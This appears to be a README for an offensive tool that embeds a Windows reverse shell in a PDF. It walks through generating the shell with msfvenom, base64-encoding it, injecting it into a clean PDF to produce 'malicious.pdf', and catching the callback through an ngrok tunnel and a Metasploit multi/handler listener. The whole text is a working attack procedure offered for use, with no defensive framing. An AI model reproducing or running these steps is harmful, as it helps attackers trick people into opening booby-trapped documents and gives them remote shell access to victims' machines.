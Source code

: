 ## Creating the Payload

To create the shell executable here:

```
msfvenom -p windows/shell/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

To create the base64 encoded payload, in any command line:

```
base64 shell.exe > payload
```

## Embedding the Payload

To embed the payload in an existing clean.pdf to make a malicious.pdf, simply run:

```
python embed_payload.py
```

When prompted for an input file, enter clean.pdf, and when prompted for output malicious.pdf. By default, the file will look for a payload named payload. 

## Setting up a Listener

To use Ngrok to open up a listener:

```
ngrok tcp <Your Port to Connect On>
```

To be ready to receive TCP connections in Metasploit, first open up msfconsole, and then:

```
use exploit/multi/handler
set PAYLOAD windows/shell/reverse_tcp
set LHOST <Your IP Address>
set LPORT <Your Port to Connect On>
set ExitOnSession false
exploit -j -z
```

